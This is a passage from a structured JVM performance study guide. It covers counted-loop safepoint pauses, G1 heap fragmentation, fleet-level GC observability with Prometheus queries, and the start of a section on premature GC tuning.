| Code changes    | None              | None (JVM flag)    | Required            |
| JDK requirement | All               | 10+                | All                 |
| Risk level      | High (unbounded)  | Low (bounded)      | Low (bounded)       |

---

### ⚡ Decision Snap

**ENABLE UseCountedLoopSafepoints WHEN:**

- Any production JVM with latency sensitivity.
- Unexplained multi-second TTSP observed.
- Code contains counted loops over large arrays.

**KEEP DEFAULT (no poll) WHEN:**

- Scientific computing / HPC where loop throughput is the SLA.
- No latency sensitivity (batch processing, offline).
- Verified that all counted loops are short (< 10K iterations).

**RESTRUCTURE LOOP WHEN:**

- JDK 8/9 without UseCountedLoopSafepoints support.
- Specific loop identified as the problem.
- Cannot accept even 1-5% loop throughput overhead.

---

### ⚠️ Top Traps

| #   | Misconception                                  | Reality                                                                                                                            |
| --- | ---------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| 1   | "Long GC pauses = GC problem"                  | TTSP (time before GC starts) can be 100x longer than GC itself. Check safepoint logs, not just GC logs.                            |
| 2   | "All loops have safepoint polls"               | Only UNCOUNTED loops. C2 removes polls from `for(int i=0; i<n; i++)` style loops for performance.                                  |
| 3   | "This only matters for billion-element arrays" | Even 1M elements at 100ns/element = 100ms TTSP. 10M elements at 1us/element = 10s TTSP. Scale matters.                             |
| 4   | "UseCountedLoopSafepoints kills performance"   | 1-5% overhead on affected loops. For most services (not HPC), this is acceptable for bounded TTSP.                                 |
| 5   | "Thread.yield() in the loop helps"             | Only if NOT inlined by C2. If C2 inlines yield() into the counted loop, the poll may still be absent. Use method call or iterator. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-055 Safepoints - What Stops the World - fundamental safepoint concept
- JVM-080 Safepoint Bias and Time-To-Safepoint Latency - TTSP measurement and diagnosis

**THIS:** JVM-093 The Billion-Dollar Safepoint Bug Pattern

**Next steps:**

- JVM-079 JIT Code Cache and Deoptimization - C2 optimization decisions that cause this
- JVM-091 Project Loom and Virtual Thread Scheduling - carrier pinning is analogous

---

**The Surprising Truth:**

The "fix" (`-XX:+UseCountedLoopSafepoints`) has existed since JDK 10 (2018) but is NOT the default even in JDK 21 (2023). The JDK team considers the 1-5% throughput overhead unacceptable as a default for all workloads. This means EVERY JDK deployment with latency sensitivity should explicitly add this flag - but most teams do not know it exists. You can verify the issue exists in your JVM by running a simple test: a counted loop with 100M iterations will show measurable TTSP in safepoint logs. This single flag prevents an entire class of mysterious production pauses.

**Further Reading:**

- Aleksey Shipilev, "JVM Anatomy Quark #22: Safepoint Polls" (2018)
- JEP 404: Generational Shenandoah (includes universal loop strip-mining discussion)
- OpenJDK mailing list: "Loop strip mining" design discussion (2017)

**Revision Card:**

1. Counted loops (`for(int i=0;i<n;i++)`) have NO safepoint poll in C2. One long loop blocks entire JVM at safepoint.
2. Fix: `-XX:+UseCountedLoopSafepoints` (JDK 10+). Adds poll every ~1024 iterations. 1-5% loop overhead.
3. Diagnosis: `-Xlog:safepoint=info` shows TTSP. If TTSP >> GC time: look for counted loops or JNI calls.

**BAD:**

```java
// Innocent-looking loop blocks safepoint 10s
int sum = 0;
for (int i = 0; i < hugeArray.length; i++) {
    sum += process(hugeArray[i]); // 100ns each
    // NO safepoint poll (counted loop, C2)
    // 100M elements x 100ns = 10 SECONDS
    // Entire JVM frozen waiting for this thread
}
// Other 199 threads: stopped for 10s
// GC log says: "GC pause 50ms" (misleading)
// Actual app pause: 10.05s (TTSP + GC)
```

**GOOD:**

```java
// Option 1: JVM flag (recommended)
// -XX:+UseCountedLoopSafepoints
// Same code, safepoint poll every ~1024 iters
// TTSP bounded to ~100us

// Option 2: Restructure to uncounted loop
int sum = 0;
Iterator<Integer> iter = list.iterator();
while (iter.hasNext()) {
    sum += process(iter.next());
    // Safepoint poll at back-edge (uncounted)
    // TTSP bounded: thread responds in <1ms
}
```

---

---

# JVM-094 Heap Fragmentation Under Long-Running Loads

**TL;DR** - Long-running JVMs accumulate heap fragmentation that degrades allocation performance and triggers unnecessary Full GCs, especially with humongous objects in G1.

---

### 🔥 Problem Statement

A service running for 30 days shows degrading GC performance: young GC pauses grow from 15ms to 80ms, and occasional Full GCs appear that did not exist in the first week. Heap utilization is only 60%, yet allocation failures trigger collection. The heap is "swiss cheese" - scattered live objects prevent contiguous allocation of large objects. This fragmentation pattern emerges gradually in long-running services and is invisible to simple heap utilization metrics.

---

### 📜 Historical Context

Fragmentation was CMS's fatal flaw (mark-sweep without compaction). CMS (deprecated JDK 9, removed JDK 14) accumulated fragments until a Full GC compaction was forced. G1 introduced region-based collection (JDK 7) that can compact incrementally. However, G1 still has fragmentation issues: humongous objects (>50% of region) waste the remainder of their region. ZGC and Shenandoah perform concurrent compaction, largely eliminating fragmentation as a concern - but only on JDK 15+.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Allocation needs contiguous space:** Even in G1, within a region, allocation is bump-pointer (requires contiguous free space in that region). Cross-region allocation requires finding a free or partially-free region.
2. **Long-lived objects cause pinning:** Objects that survive many GC cycles become "immovable anchors" in old gen. Free space between them cannot be combined without compaction.
3. **Humongous objects waste region space:** G1 allocates objects > 50% of region size in dedicated humongous regions. The remainder of the last humongous region is wasted.

**DERIVED DESIGN:**

These invariants mean: (1) regularly promoting and dying objects create gaps in old gen, (2) humongous allocations are inherently wasteful and should be minimized, (3) compacting collectors (G1, ZGC, Shenandoah) mitigate but do not eliminate fragmentation.

**THE TRADE-OFF:**

**Gain:** Non-compacting collection is faster per cycle (CMS was faster per-pause than Full GC compaction).

**Cost:** Fragmentation accumulates over time. Eventually forces expensive compaction (Full GC). Long-running services are most affected.

---

### 🧠 Mental Model

> Heap fragmentation is like a parking garage with scattered occupied spots. Early on, cars park contiguously. Over months, random arrivals and departures create gaps. Eventually, a bus (large allocation) arrives but no contiguous stretch of spots exists - despite 40% total capacity free. The garage must reorganize all cars (compaction/Full GC) to make room.

- "Parking spots" -> heap memory addresses
- "Cars" -> Java objects (varied sizes)
- "Gaps between cars" -> fragmented free space
- "Bus" -> large allocation (humongous object)
- "Reorganize" -> compaction (stop-the-world)
- "40% capacity free" -> fragmentation: free but not usable

**Where this analogy breaks down:** real parking does not have different "generations." In JVM, young gen is always contiguous (bump-pointer), fragmentation occurs primarily in old gen where objects have varied lifetimes and sizes.

---

### 🧩 Components

- **Free lists (CMS/old collectors):** Maintain lists of free chunks by size. Allocation searches for fitting chunk. Search is O(n) in worst case - slow when many fragments.
- **Region-based allocation (G1):** Heap divided into fixed-size regions (default 1-32MB). Within region: bump-pointer (fast). Across regions: region selection.
- **Humongous regions (G1):** Objects > 50% of region size get dedicated contiguous regions. Last region partially wasted.
- **Mixed GC (G1):** Evacuates (copies) live objects from old regions with high garbage ratio. Compacts those regions, freeing contiguous space.
- **Full GC (compaction):** Last resort. Compacts entire heap. Stop-the-world for seconds on large heaps. Cures fragmentation completely.

```text
Fragmentation example (old gen, CMS-style):

Before (day 1):
  |AAABBBBCCDDDDEEEEFFFFGGG-----|
  Contiguous free at end: large allocation OK

After (day 30):
  |AAA--BB--CCD---EE--F--GGG---|
  Free: 40% total, but max contiguous: 4%
  Large allocation: FAILS despite free space
  -> Full GC compaction required

G1 region fragmentation:
  Region 1: |OOOOO---| (50% used, 50% free)
  Region 2: |OOOOOOOO| (100% used)
  Region 3: |OO------| (25% used, 75% free)
  Humongous (needs 2 regions): must find 2 FREE
  -> Triggers mixed GC to free full regions
```

```mermaid
flowchart TD
    A[Long-running Service] --> B[Objects promoted to Old Gen]
    B --> C[Some die, some live long]
    C --> D[Gaps form between live objects]
    D --> E{Large allocation request}
    E -->|Fits in gap| F[OK - uses fragment]
    E -->|No fit| G[Mixed GC to compact regions]
    G -->|Still no fit| H[Full GC - compact entire heap]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Over time, a JVM's memory becomes scattered with small gaps between live objects. Even though total free memory is available, it cannot be used for large allocations because it is not contiguous. This eventually forces expensive full garbage collections.

**Level 2 - How to use it:** Monitor fragmentation indicators: increasing frequency of Full GCs over time, growing "concurrent mark" cycles in G1, humongous allocation failures. Reduce large object allocations. Increase G1 region size for services with large objects.

**Level 3 - How it works:** In G1, fragmentation manifests as partially-filled old regions. Mixed GC selects regions with highest garbage ratio, evacuates live objects to free regions, and reclaims the fragmented regions entirely. If mixed GC cannot free enough regions (too many live objects spread thinly), Full GC compacts everything.

**Level 4 - Production mastery:** Diagnosis: `-Xlog:gc+heap=debug` shows region occupancy after each GC. If "old regions" count stays high despite "used" being low: fragmentation. Key metrics: ratio of old region count to old generation used bytes. If regions are 30% average utilized: severe fragmentation. Fixes: (1) increase region size (`-XX:G1HeapRegionSize=16m`) to reduce humongous threshold, (2) reduce object sizes near the humongous boundary, (3) upgrade to ZGC/Shenandoah (concurrent compaction eliminates this issue).

---

### ⚙️ How It Works

**Phase 1 - Normal Operation:** Young gen objects promoted to old gen. Initially fill regions sequentially.

**Phase 2 - Gradual Degradation:** Some promoted objects die, creating gaps in old regions. Regions become partially occupied.

**Phase 3 - Allocation Pressure:** Large allocation cannot find contiguous space. G1 triggers mixed GC (evacuates selected old regions).

**Phase 4 - Compaction:** Mixed GC copies live objects from fragmented regions to free regions. Fragmented regions are fully reclaimed. If this is insufficient: Full GC compacts the entire heap.

```text
G1 Mixed GC compaction (per-region):

Before mixed GC:
  Region 7: |OOOOO--OO-OOO--O| (62% used)
  Region 9: |OO--O--OOO--OO--| (50% used)
  Target: evacuate regions < 60% used

After mixed GC:
  Region 7: (freed entirely - objects moved)
  Region 9: (freed entirely - objects moved)
  New region: |OOOOOOOOOOOOO---| (live objects packed)

  Result: 2 fully free regions available
  Cost: copy live objects (pause time)

Humongous fragmentation (separate issue):
  Region size: 4MB. Object: 2.1MB (>50% = humongous)
  Allocated: Region N (4MB) for 2.1MB object
  Wasted: 1.9MB (47% of region!) per object
  Fix: -XX:G1HeapRegionSize=8MB (threshold now 4MB)
       Object no longer humongous -> normal alloc
```

```mermaid
sequenceDiagram
    participant App as Application
    participant G1 as G1 Collector
    participant Old as Old Gen Regions
    App->>Old: promote objects over months
    Old->>Old: some die, gaps form (fragmented)
    App->>G1: large allocation request
    G1->>Old: select worst fragmented regions
    G1->>G1: evacuate live objects (copy)
    G1->>Old: reclaim empty regions
    G1->>App: allocation succeeds
```

---

### 🚨 Failure Modes

**Failure 1 - Humongous Allocation Waste:**

**Symptom:** Heap utilization reports 70%, but frequent Full GCs. Many humongous regions visible in GC logs.

**Root cause:** Frequent allocation of objects just over 50% of region size (e.g., 2.1MB objects with 4MB regions). Each wastes 47% of its region.

**Diagnostic:**

```bash
# Count humongous allocations:
grep -c "humongous" gc.log
# Check region size vs object sizes:
-Xlog:gc+heap=debug
# Look for: "H" regions in region summary
```

**Fix:** Increase region size: `-XX:G1HeapRegionSize=16m` (humongous threshold becomes 8MB). Or reduce allocation size to below 50% of current region size.

**Failure 2 - Promotion Fragmentation (Long-running):**

**Symptom:** Mixed GC frequency increases over weeks. Full GC eventually occurs despite low heap utilization.

**Root cause:** Many old regions are 20-40% utilized (live objects scattered). Mixed GC cannot keep up with fragmentation rate.

**Diagnostic:**

```bash
# After GC, check old region utilization:
-Xlog:gc+heap=debug
# Look for: many old regions with low utilization
# If average old region utilization < 50%:
# severe fragmentation
```

**Fix:** Tune mixed GC: `-XX:G1MixedGCLiveThresholdPercent=50` (compact regions that are <50% live). Or use ZGC/Shenandoah for concurrent compaction.

---

### 🔬 Production Reality

The transition from CMS to G1 (JDK 8 to 11 upgrades) eliminated most critical fragmentation issues. However, G1 fragmentation still manifests in two scenarios: (1) services with many objects near the humongous boundary (common in message processing: serialization buffers, message batches), and (2) services with very long uptimes (months) and heterogeneous object lifetimes that prevent efficient region compaction. ZGC (JDK 15+) with concurrent compaction makes fragmentation a non-issue - the strongest argument for upgrading to modern GC.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | CMS (deprecated)   | G1                 | ZGC/Shenandoah            |
| --------------- | ------------------ | ------------------ | ------------------------- |
| Fragmentation   | Severe over time   | Moderate (regions) | None (concurrent compact) |
| Compaction      | Full GC only       | Mixed + Full GC    | Concurrent (always)       |
| Long-running    | Degrades badly     | Manageable         | Stable indefinitely       |
| Humongous issue | N/A                | Yes (region waste) | No (different model)      |
| JDK requirement | 8 (removed JDK 14) | 8+                 | 15+                       |

---

### ⚡ Decision Snap

**FIX HUMONGOUS FRAGMENTATION WHEN:**

- GC logs show frequent humongous allocations.
- Region size is small relative to common object sizes.
- Full GCs occurring despite moderate heap utilization.

**UPGRADE TO ZGC/SHENANDOAH WHEN:**

- Long-running service with fragmentation issues.
- JDK 15+ is available.
- Cannot afford Full GC pauses (SLA requirement).

**TUNE G1 MIXED GC WHEN:**

- Cannot upgrade JDK/GC. Stuck on G1.
- Need to reduce fragmentation accumulation rate.
- `G1MixedGCLiveThresholdPercent` tuning helps.

---

### ⚠️ Top Traps

| #   | Misconception                             | Reality                                                                                                 |
| --- | ----------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| 1   | "60% heap used = 40% free for allocation" | Fragmented free space may not be contiguous. Effective free space is less than total free.              |
| 2   | "G1 never has Full GC"                    | G1 triggers Full GC when mixed GC cannot free enough space. Fragmentation is the usual cause.           |
| 3   | "Larger heap prevents fragmentation"      | Larger heap delays fragmentation but does not prevent it. More regions = more potential fragment sites. |
| 4   | "Short-lived objects do not fragment"     | Short-lived objects are fine (collected in young gen). It is PROMOTED objects that fragment old gen.    |
| 5   | "Restarting fixes fragmentation"          | Yes, temporarily. But the pattern returns after same uptime. Fix the root cause instead.                |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-058 G1GC Region-Based Collection - understand region model and mixed GC
- JVM-059 Humongous Allocations in G1 - humongous allocation mechanism

**THIS:** JVM-094 Heap Fragmentation Under Long-Running Loads

**Next steps:**

- JVM-078 ZGC Colored Pointers and Load Barriers - concurrent compaction eliminates fragmentation
- JVM-085 GC Ergonomics Failures at Scale - fragmentation interacts with adaptive sizing

---

**The Surprising Truth:**

The humongous allocation threshold in G1 (50% of region size) is arbitrary and often suboptimal. A 4MB region size means anything > 2MB is humongous. Many real applications frequently allocate 2-5MB objects (serialization buffers, image data, batch collections). Setting `-XX:G1HeapRegionSize=32m` (maximum) raises the threshold to 16MB - eliminating most humongous allocations and their associated fragmentation. The cost is coarser-grained region management, but for services with large objects, this single change can eliminate Full GCs entirely.

**Further Reading:**

- OpenJDK wiki: "G1 GC: Advanced Tuning" - mixed GC and region sizing
- Aleksey Shipilev, "G1 Humongous Objects and How to Deal With Them"
- JEP 376: ZGC Concurrent Thread-Stack Processing (concurrent compaction enabler)

**Revision Card:**

1. Fragmentation: free memory exists but not contiguous. Triggers Full GC despite low utilization. Worsens over weeks of uptime.
2. G1 humongous fix: increase `-XX:G1HeapRegionSize=16m` or `32m` to raise humongous threshold. Reduces region waste.
3. Ultimate fix: ZGC/Shenandoah (JDK 15+) - concurrent compaction prevents fragmentation from ever accumulating.

**BAD:**

```bash
# Default 4MB region with frequent 3MB allocations
java -Xmx32g -XX:+UseG1GC -jar service.jar
# G1HeapRegionSize=4MB (auto-selected for 32GB)
# 3MB objects > 50% of 4MB = HUMONGOUS
# Each 3MB object wastes 1MB (25% per region)
# After 30 days: heap fragmented, Full GC every hour
```

**GOOD:**

```bash
# Region size tuned for allocation pattern
java -Xmx32g -XX:+UseG1GC \
  -XX:G1HeapRegionSize=16m \
  -XX:G1MixedGCLiveThresholdPercent=50 \
  -jar service.jar
# 16MB regions: threshold = 8MB
# 3MB objects are NORMAL (not humongous)
# No region waste. Mixed GC efficient.
# Or: upgrade to ZGC (eliminates issue entirely)
# -XX:+UseZGC -XX:+ZGenerational
```

---

---

# JVM-095 JVM Fleet Observability - Key Metrics

**TL;DR** - Fleet-level JVM observability aggregates per-instance GC, memory, thread, and JIT metrics across hundreds of instances to detect systemic patterns invisible in single-instance monitoring: ergonomic drift, correlated GC, and fleet-wide degradation.

---

### 🔥 Problem Statement

A fleet of 150 JVM instances shows p99 latency at 2x the expected value, but no single instance's dashboard reveals an issue. The problem is a fleet-level pattern: 10% of instances have drifted into frequent mixed GC (ergonomic divergence), creating a "noisy minority" that dominates tail latency in aggregate. Single-instance monitoring cannot detect this because each individual instance appears marginally acceptable. Fleet observability reveals the pattern: bimodal GC behavior distribution across the fleet.

---

### 📜 Historical Context

Early JVM monitoring was per-instance: JMX MBeans, VisualVM, JConsole. The microservice era (2015+) required fleet-level aggregation. Prometheus + Grafana became the standard stack, with JVM metrics exported via Micrometer or JMX exporter. However, most teams build dashboards showing AVERAGES across the fleet - which hides the distribution. Fleet observability maturity requires: (1) per-instance metric retention, (2) distribution analysis (not just averages), (3) anomaly detection across the fleet.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Averages hide bimodality:** If 90% of instances have 10ms GC pause and 10% have 500ms, the average (59ms) looks fine. The distribution reveals the problem.
2. **Fleet correlation is a risk signal:** If all instances show the same behavior, they will FAIL the same way under stress. Lack of variance = cascading failure risk.
3. **Drift accumulates:** Over days/weeks, ergonomic decisions, JIT warmup paths, and heap composition diverge across instances. Regular fleet comparison detects drift before it causes incidents.

**DERIVED DESIGN:**

These invariants mean: (1) monitor percentile DISTRIBUTIONS not averages (p50, p90, p99, max across fleet), (2) alert on fleet variance increase (standard deviation rising = drift occurring), (3) periodically compare per-instance settings/behavior for divergence.

**THE TRADE-OFF:**

**Gain:** Detect systemic issues invisible to single-instance monitoring. Prevent cascading failures. Quantify fleet health.

**Cost:** Metric volume (N instances x M metrics x T resolution). Dashboard complexity. Storage costs. Alert tuning complexity.

---

### 🧠 Mental Model

> Fleet observability is like a doctor monitoring a hospital ward (fleet) vs a single patient (instance). Individual patient vital signs might be "within range," but a doctor surveying the whole ward notices: "5 patients have rising temperatures" (drift), "all patients received the same medication" (correlated risk), "ward average temperature is normal but the distribution is bimodal" (hidden sick subgroup).

- "Ward" -> fleet of JVM instances
- "Patient vitals" -> per-instance JVM metrics
- "Ward average" -> aggregated dashboard (hides problems)
- "Distribution check" -> per-instance comparison
- "Rising temperatures" -> ergonomic drift signal
- "Same medication" -> identical config = correlated failure risk

**Where this analogy breaks down:** hospital patients are heterogeneous (different conditions). Fleet instances are supposed to be IDENTICAL - divergence is itself the signal. Also, you cannot "restart" a patient to fix them, but you CAN restart JVM instances.

---

### 🧩 Components

- **GC metrics (per-instance):** Pause duration (p50/p99/max), pause frequency, GC CPU time %, throughput (1 - gc_time/total_time), allocation rate.
- **Heap metrics:** Used/committed/max. Old gen occupancy. Humongous allocation count. IHOP threshold (if adaptive).
- **Thread metrics:** Live thread count, peak thread count, daemon vs non-daemon, blocked thread count.
- **JIT metrics:** Compilation count, failed compilations, deoptimization count, code cache usage.
- **Metaspace metrics:** Used/committed/max. Class load count (growing = potential leak).
- **Fleet-level derived metrics:** Standard deviation of GC pause across instances, fleet percentile distribution, drift score (change over time in per-instance variance).

```text
Fleet observability layers:

Layer 1: Per-instance metrics (Prometheus)
  jvm_gc_pause_seconds{instance="i-1"} = 0.015
  jvm_gc_pause_seconds{instance="i-2"} = 0.480
  jvm_gc_pause_seconds{instance="i-3"} = 0.012

Layer 2: Fleet aggregation (Grafana)
  avg(jvm_gc_pause_seconds) = 0.169 (looks OK?)
  max(jvm_gc_pause_seconds) = 0.480 (PROBLEM!)
  stddev(jvm_gc_pause_seconds) = 0.215 (HIGH!)

Layer 3: Distribution analysis
  Fleet GC pause histogram:
    0-50ms:  135 instances (90%)  <- healthy
    50-100ms:  5 instances (3%)   <- borderline
    100-500ms: 10 instances (7%)  <- UNHEALTHY
  Bimodal distribution detected!

Layer 4: Alerting
  Alert: stddev(gc_pause) > 3x baseline
  Alert: max(gc_pause) / median(gc_pause) > 10x
  Alert: instances_in_full_gc > 5% of fleet
```

```mermaid
flowchart TD
    A[150 JVM Instances] --> B[Prometheus Metrics Export]
    B --> C[Per-instance Storage]
    C --> D[Fleet Aggregation]
    D --> E[Distribution Analysis]
    E --> F{Bimodal detected?}
    F -->|Yes| G[Alert: fleet drift]
    F -->|No| H[Healthy fleet]
    D --> I[Correlation Check]
    I --> J{Correlated GC events?}
    J -->|Yes| K[Alert: cascade risk]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Instead of monitoring each JVM service individually, fleet observability watches patterns across ALL instances together - detecting problems that only appear when you compare instances or look at the distribution of metrics across the fleet.

**Level 2 - How to use it:** Export JVM metrics via Micrometer/Prometheus JMX exporter. Build Grafana dashboards showing: fleet-wide GC pause distribution (histogram), per-instance max GC pause, standard deviation across instances. Alert when stddev rises or max >> median.

**Level 3 - How it works:** Each instance exports metrics to Prometheus (scrape every 15-30s). Grafana queries aggregate across instances. Key queries: `histogram_quantile(0.99, sum by (le) (rate(jvm_gc_pause_seconds_bucket[5m])))` shows fleet-wide p99. `stddev(jvm_gc_pause_seconds_max)` detects drift.

**Level 4 - Production mastery:** Build three-layer alerting: (1) Instance-level: single instance GC pause > 5s (immediate). (2) Fleet-level: > 5% of instances with GC pause > 1s in same 5min window (correlated failure alert). (3) Drift-level: stddev of GC pause across fleet increased 3x from baseline over 24h (proactive alert before incident). The drift alert catches problems DAYS before they manifest as incidents.

---

### ⚙️ How It Works

**Phase 1 - Metric Export:** Each JVM instance exposes metrics via HTTP endpoint (Micrometer Prometheus registry or JMX exporter). Metrics include GC pause, heap, threads, JIT, metaspace.

**Phase 2 - Collection:** Prometheus scrapes all instances every 15-30 seconds. Stores time series with instance label.

**Phase 3 - Aggregation:** Grafana queries compute fleet-level statistics: percentiles, standard deviation, min/max, histograms.

**Phase 4 - Anomaly Detection:** Rules compare current fleet distribution to baseline. Detect: bimodality, drift, correlation, outliers.

```text
Essential fleet dashboards:

Dashboard 1: "Fleet GC Health"
  - Panel: GC pause p50/p90/p99 across fleet (heatmap)
  - Panel: Instances in Full GC right now (counter)
  - Panel: GC pause stddev (trend line)
  - Alert: stddev > 3x baseline over 1h

Dashboard 2: "Fleet Heap & Memory"
  - Panel: Heap utilization distribution (histogram)
  - Panel: Old gen growth rate per instance (find leaks)
  - Panel: Metaspace growth (class loading leaks)
  - Alert: any instance old gen > 85% sustained 10min

Dashboard 3: "Fleet JIT & Warmup"
  - Panel: Compilation count per instance (should converge)
  - Panel: Deoptimization rate (find unstable methods)
  - Panel: Code cache utilization
  - Alert: code cache > 90% on any instance
```

```mermaid
sequenceDiagram
    participant I1 as Instance 1
    participant I2 as Instance 2
    participant P as Prometheus
    participant G as Grafana
    participant A as Alert Manager
    I1->>P: metrics (GC pause: 15ms)
    I2->>P: metrics (GC pause: 480ms)
    P->>G: query: stddev(gc_pause)
    G->>G: stddev = 0.215 (high!)
    G->>A: fleet drift alert triggered
    A->>A: page on-call engineer
```

---

### 🚨 Failure Modes

**Failure 1 - Hidden Bimodal Fleet:**

**Symptom:** Fleet average metrics look healthy. p99 latency at SLA boundary. No alerts firing. Customer complaints about intermittent slowness.

**Root cause:** 10% of instances have degraded (higher GC, slower responses). Average masks the problem. Customers hitting degraded instances see poor performance.

**Diagnostic:**

```bash
# Prometheus query: find outlier instances
topk(10, max_over_time(
  jvm_gc_pause_seconds_max[1h]
)) by (instance)
# Compare top 10 to median
# If top 10 are 10x median: bimodal fleet
```

**Fix:** Identify cause of degraded subgroup (longer uptime, different traffic pattern, ergonomic drift). Restart degraded instances or fix root cause.

**Failure 2 - Alert Fatigue from Per-Instance Monitoring:**

**Symptom:** 150 individual instance alerts. Each fires occasionally for brief GC spikes. Team ignores alerts (noise). Real fleet-level issue goes unnoticed.

**Root cause:** Alerting on individual instance metrics without fleet context. Brief spikes are normal for individuals. Sustained fleet-wide issues are not.

**Diagnostic:**

```bash
# Count alert fires per day:
# If > 10 individual alerts/day: too noisy
# Replace with fleet-level alert:
count(jvm_gc_pause_seconds_max > 1.0) > floor(fleet_size * 0.05)
# Fires only when >5% of fleet affected
```

**Fix:** Replace per-instance GC alerts with fleet-level percentage alerts. Keep per-instance only for extreme events (Full GC > 30s, OOM).

---

### 🔬 Production Reality

Organizations with mature fleet observability (Netflix, Uber, LinkedIn) report that fleet-level metrics catch 60-70% of incidents BEFORE they impact customers. The key insight: individual instance metrics have high noise (brief GC spikes, JIT recompilations). Fleet-level metrics filter noise because they look at DISTRIBUTION. A single instance having a 2s GC pause is noise. 10 instances simultaneously having 2s GC pauses is a correlated failure signal.

---

### ⚖️ Trade-offs & Alternatives

| Aspect            | Per-instance only | Fleet aggregate   | APM distributed      |
| ----------------- | ----------------- | ----------------- | -------------------- |
| Problem detection | Individual issues | Systemic patterns | Request-level        |
| Noise level       | High              | Low (filtered)    | Medium               |
| Storage cost      | Low-medium        | Medium-high       | High                 |
| Setup effort      | Low               | Medium            | High (agent + infra) |
| Coverage          | JVM only          | JVM + fleet       | Full stack           |

---

### ⚡ Decision Snap

**BUILD FLEET OBSERVABILITY WHEN:**

- Fleet size > 10 instances of same service.
- Tail latency matters (p99 SLA).
- Have experienced unexplained fleet-level degradation.

**MINIMUM VIABLE FLEET DASHBOARD:**

- GC pause distribution (histogram across fleet).
- Instances in Full GC (counter, alert > 0).
- Standard deviation of key metrics (trend, alert on rise).

**ADVANCED (mature organizations):**

- Drift scoring per instance (how far from fleet median).
- Automatic outlier detection and restart.
- Correlation analysis (do all GC events align?).

---

### ⚠️ Top Traps

| #   | Misconception                         | Reality                                                                                                      |
| --- | ------------------------------------- | ------------------------------------------------------------------------------------------------------------ |
| 1   | "Average metrics are sufficient"      | Averages hide bimodal distributions. A few sick instances are invisible in averages.                         |
| 2   | "Per-instance dashboards are enough"  | Cannot see fleet patterns (drift, correlation, bimodality) from individual dashboards. Need aggregation.     |
| 3   | "More metrics = better observability" | Volume without structure = noise. Focus on GC pause distribution, heap drift, and correlation signals.       |
| 4   | "Alerts on every metric"              | Alert fatigue kills fleet monitoring. Use fleet-level percentage thresholds, not per-instance triggers.      |
| 5   | "All instances should be identical"   | They SHOULD be, but ergonomic drift guarantees divergence over time. Detecting drift is a core fleet metric. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-046 GC Logging and Analysis - understand per-instance GC metrics
- JVM-085 GC Ergonomics Failures at Scale - why fleet divergence matters

**THIS:** JVM-095 JVM Fleet Observability - Key Metrics

**Next steps:**

- JVM-098 Build a JVM Dashboard - Phase 3 (Diagnosis) - build the dashboard described here
- JVM-087 JVM Production Incident Simulation - validate that fleet monitoring detects injected failures

---

**The Surprising Truth:**

The single most valuable fleet metric is NOT GC pause time - it is the STANDARD DEVIATION of GC pause time across instances. When stddev is low, the fleet is healthy and homogeneous (even if individual pauses are high - at least they are uniformly high, meaning you can tune uniformly). When stddev RISES, it means some instances are diverging from the fleet - ergonomic drift, different traffic patterns, or slow memory leaks. Rising stddev predicts fleet-level incidents 24-72 hours before they occur, giving time for proactive intervention.

**Further Reading:**

- Google SRE Book, Ch. 6: "Monitoring Distributed Systems"
- Cindy Sridharan, "Distributed Systems Observability" (O'Reilly, 2018)
- Netflix Tech Blog: "Lessons from Building Observability Tools at Netflix"

**Revision Card:**

1. Monitor DISTRIBUTION not averages: fleet GC pause histogram, stddev across instances, max/median ratio.
2. Key alert: stddev of GC pause rising over 24h = fleet drift = incident in 1-3 days. Proactive fix window.
3. Three-layer alerts: (1) single extreme event, (2) >5% of fleet affected, (3) drift score increasing.

**BAD:**

```text
# Dashboard: avg(jvm_gc_pause_seconds)
# Shows: 45ms (looks healthy!)
# Reality:
#   135 instances: 12ms (healthy)
#   15 instances: 480ms (SICK)
#   Average: 59ms (masks the problem)
# Result: SLA breach from sick 10%
# No alert because average is under threshold
```

**GOOD:**

```text
# Dashboard: fleet GC pause distribution
# Histogram shows bimodal pattern:
#   Peak 1: 10-20ms (90% of fleet)
#   Peak 2: 400-500ms (10% of fleet)
# Alert: stddev(gc_pause) > 100ms
#   (baseline was 5ms - 20x increase)
# Action: investigate sick 10%
#   (find: ergonomic drift, restart or tune)
# Prometheus: topk(15, max_over_time(
#   jvm_gc_pause_seconds_max[1h]))
```

---

---

# JVM-096 Premature GC Tuning Anti-Pattern

**TL;DR** - Tuning GC without measurement evidence wastes time and often worsens performance; measure first, identify the bottleneck, then apply targeted changes with validation.

---

### 🔥 Problem Statement

A team spends two weeks tuning GC: adjusting NewRatio, SurvivorRatio, IHOP, tenuring thresholds, ParallelGCThreads - based on blog posts and conference talks. After deployment, p99 latency is 15% WORSE than the defaults. The team cannot explain why because they changed 8 parameters simultaneously without baseline measurements. They have accidentally tuned the GC for a workload pattern that does not match their production reality. The correct approach: one change at a time, with measurement evidence justifying each change.

---

### 📜 Historical Context

GC tuning mythology grew from the CMS era (JDK 6-8) when 50+ flags could meaningfully affect behavior. Teams developed "cargo cult" flag sets copied between projects. G1 (JDK 9+ default) was designed to reduce tuning surface: its primary control is MaxGCPauseMillis, with ergonomics handling the rest. Despite this, teams continue applying CMS-era tuning knowledge to G1, often counterproductively. The modern principle: trust the ergonomics unless measurement proves they are inadequate for YOUR workload.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Measure before changing:** Without baseline metrics, you cannot know if a change helped or hurt. GC tuning without GC logs is blind.
2. **One variable at a time:** Changing multiple parameters simultaneously makes it impossible to attribute improvement or regression.
3. **The default is the default for a reason:** JDK engineers tested defaults against diverse workloads. Deviating requires evidence that YOUR workload is different.

**DERIVED DESIGN:**

These invariants mean: (1) enable GC logging FIRST, analyze for 1+ week under production load, (2) identify the specific GC bottleneck (allocation rate? promotion rate? IHOP trigger? fragmentation?), (3) apply ONE targeted change, measure for 1+ day, evaluate.

**THE TRADE-OFF:**

**Gain:** Discipline prevents regressions. Evidence-based changes compound correctly. Team builds understanding of their specific workload.

**Cost:** Slower iteration. Requires patience. Must resist "just try these flags" temptation.

---

### 🧠 Mental Model

